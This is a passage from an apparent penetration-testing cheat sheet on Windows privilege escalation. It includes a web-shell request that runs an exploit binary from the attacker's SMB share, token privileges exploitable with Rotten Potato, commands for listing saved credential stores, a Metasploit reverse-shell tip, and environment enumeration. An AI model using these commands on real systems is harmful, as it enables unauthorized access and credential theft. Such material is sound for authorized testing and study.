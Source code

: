Once, smbserver is up and running, we can execute code like

```none
view-source:VictimIP/shell.php?cmd=\\YourIP\ShareName\ms15-051x64.exe whoami

*Considering shell.php is our php oneliner to execute commands.
```

### Abusing Token Privileges

If we have the windows shell or meterpreter, we can type "whoami /priv" or if we have meterpreter, we can type "getprivs"

If we have any of the below privileges, we can possibly utilize [Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

```none
SeImpersonatePrivilege
SeAssignPrimaryPrivilege
SeTcbPrivilege
SeBackupPrivilege
SeRestorePrivilege
SeCreateTokenPrivilege
SeLoadDriverPrivilege
SeTakeOwnershipPrivilege
SeDebugPrivilege
```

The above was for the Windows OS and the below is for Linux OS.

### Credential Manager

Sometimes, the user might have save his credentials in the memory while using "runas /savecred" option. We could check this by

```none
cmdkey /list
dir C:\Users\username\AppData\Local\Microsoft\Credentials\
dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

Note

Sometimes, while using Metasploit web delivery method, if the reverse_https payload doesn't work try reverse tcp maybe?

### Other Enumeration

Mostly taken from [Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

**Environment Variables** : A domain controller in LOGONSERVER?

```none
set
Get-ChildItem Env: | ft Key,Value
```
